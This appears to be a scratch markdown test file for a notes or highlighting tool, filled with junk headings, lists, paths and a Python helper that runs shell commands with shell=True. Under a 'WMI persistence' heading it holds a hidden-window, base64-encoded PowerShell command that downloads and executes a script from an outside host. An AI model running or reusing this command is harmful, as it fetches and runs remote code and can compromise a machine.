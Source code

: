 
# test
aaa
a
a

* test
 * test
 * test


##  tata

 copy pasted
 ➤ test

bb
###  tata
###
####  tata
#####  tata

#### tata
### tata

### where 



####### This is true


FF7B00
foo
 fdsfsd
 sfds 
 TODO 
 test
TODO
DONE

https://test.com
http://test.com
c:\\windows
C:\\windows
here is : /root/test

/home/cc/github/notes/2fa_domain_admin.md
2fa_domain_admin.md
;;

# tata
tomatoc

`
def sh(cmd, stdin="", sleep=False):
    """ run a command, send stdin and capture stdout and exit status"""
    if sleep:
        time.sleep(0.5)
    # process = Popen(cmd.split(), stdin=PIPE, stdout=PIPE)
    process = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE)
    process.stdin.write(bytes(stdin, "utf-8"))
    stdout = process.communicate()[0].decode('utf-8').strip()
    process.stdin.close()
    returncode = process.returncode
    return returncode, stdout

### WMI persistence

``
powershell -W Hidden -nop -noni -ec SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwBzAHEAdQBpAHIAcgBlAGwAZABpAHIAZQBjAHQAbwByAHkALgBjAG8AbQAvAGEAJwApAAoA

#222222
CTRL+V u 2 0 2 2 

CTRL+V u 2 0 2 2

* fdsf
 * test
* test
* where  is lovedd  ffff 

*******


self.test  

  ~/github/notes/2fa_domain_admin.md:1
  ~/github/notes/2fa_domain_admin.md:1

